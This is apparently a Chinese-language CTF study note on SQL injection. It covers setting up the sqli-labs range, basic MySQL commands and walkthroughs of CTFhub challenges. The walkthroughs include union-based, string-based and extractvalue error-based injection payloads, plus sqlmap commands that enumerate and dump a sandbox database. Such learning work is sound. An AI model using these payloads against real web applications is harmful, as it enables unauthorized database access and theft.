

# 靶场搭建

项目:[Audi-1/sqli-labs: SQLI labs to test error based, Blind boolean based, Time based.](https://github.com/Audi-1/sqli-labs)

SQL配置：WWW\sql\sql-connections\db-creds.inc

php版本：5.3

数据库管理工具:phpMyAdmin4.8.5

# 数据库命令

## 增删改

```cmd
#输入密码登录数据库
mysql -u root -p

#查看数据库
show databases;

#创建数据库employees并选择字符集
create database employees charset utf8;

#删除数据库employees
drop database employees;

#选择进入数据库employees
use employees;

#创建数据表employee,写入表格信息及相关参数
create table employee
(
    id int,
    name varchar(40),
    sex char(4),
    birthday date,
    job varchar(100)
);

#修改数据表名称为user
rename table employee to user;

#写入内容
INSERT INTO user (id, name, sex, birthday, job)
VALUES (1, 'haha', 'male', '2005-01-01', 'st');

#查看数据表列表
select*from user;

#增加一列内容
alter table user add salary decimal(8,2);

#修改所有工资为5000
update user set salary=5000;

#修改id=1的行的name为hehe
update user set name='hehe' where id=1;

#修改id=1的行的name为hehe1,salary为6000
udate user set name='hehe1',salary=6000 where id=1;

#删除列
alter table user drop salary;

#删除行
delete from user where id=1;

#删除表
delete from user;

```

## 查询


```cmd
select * from users where id=1;
#select+列名(*代表所有)from +表名 where+条件语句
select * from users where id in ('3');
#从users表格，查询所有包含id为3

select * from users where id=(select id from users where username=('admin'));
#子查询，优先执行()内查询语句

select id from users union select email_id from emails;
#查询并合并数据显示
select * from user where id=6 union select *,3 from eamils where id=6;
#列数必须相同

select * from users where id =9 group by 2;
#group by进行分组，用来判断列数
select * from users order by 3;
#order by默认升序排列，对第三列进行排序，desc变降序
select * from users limit 0,3;
#限制为从第1行开始显示3行


```

# 题目-CTFhub

## 整数型注入


有回显，```order by```判断列数。当为3时没回显，列数为2


```0 union select 1,database()```查询当前数据库名


```-1 union select 1,group_concat(schema_name)from information_schema.schemata```，查询所有数据库名



```-1 union select 1,group_concat(table_name)from information_schema.tables where table_schema='sqli'```查询sqli数据库的表


```-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'```获取falg表的列


```-1 union select 1,group_concat(flag) from sqli.flag```获取flag列的内容


## 字符型注入


输入1


```1'-- '```看一下，发现可以


```order by```判断列数，3时没回显，字段数为2


```-1' union select 1,group_concat(schema_name) from information_schema.schemata -- ‘```查询数据库名


上题flag是放sqli,这题先看sqli的表```-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli' -- '```


```-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' #''```看falg中的列


```-1' union select 1,flag from sqli.flag -- '```获取内容


## 报错注入

```sql
EXTRACTVALUE(xml_frag, xpath_expr)
```

- `xml_frag` 代表 XML 文档或者片段。
- `xpath_expr` 是 XPath 表达式，其作用是指定要提取的节点。


输入1和任意内容试一下


用extractvalue()报错看一下```1 and extractvalue(1,concat(0x7e,database(),0x7e))```，获取数据库名


暴表名```1 and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))```


暴列名```1 and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='flag'),0x7e))```


暴内容```1 and extractvalue(1,concat(0x7e,(select flag from flag),0x7e))```


好像缺点，用select ，```1 and extractvalue(1,(select flag from flag))```


## 布尔盲注

```sql
substr(str,from,length)
```

- **`str`**：表示要进行截取操作的原始字符串。

- `from`

  ：指定开始截取的位置，该位置是从 1 开始计数的。

  - 若 `from` 为正数，则从字符串的左侧开始计数。
  - 若 `from` 为负数，则从字符串的右侧开始计数。
  - 若 `from` 为 0，则会被视为 1。

- **`length`**（可选）：用于指定要截取的字符长度。如果省略该参数，则会截取从 `from` 位置到字符串末尾的所有字符。


这题用的sqlmap做的

先跑数据库

```python sqlmap.py -u "http://challenge-9eb3f855ce03de28.sandbox.ctfhub.com:10800/?id=1" --dbs```


再跑sqli库中的表

```python sqlmap.py -u http://challenge-9eb3f855ce03de28.sandbox.ctfhub.com:10800/?id=1 -D sqli --tables```


最后是获取内容

先看列，发现只有一个fk的字段，但是提取它的内容是空的（实际数据是放在flag字段，不知道为啥不显示）

```python sqlmap.py -u "http://challenge-9eb3f855ce03de28.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag --columns```


导出flag列的内容（布尔是真慢呀，一个字母就要跑老久ε=(´ο｀*)))）

```python sqlmap.py -u "http://challenge-9eb3f855ce03de28.sandbox.ctfhub.com:10800/?id=1" -T flag -C flag --dump```


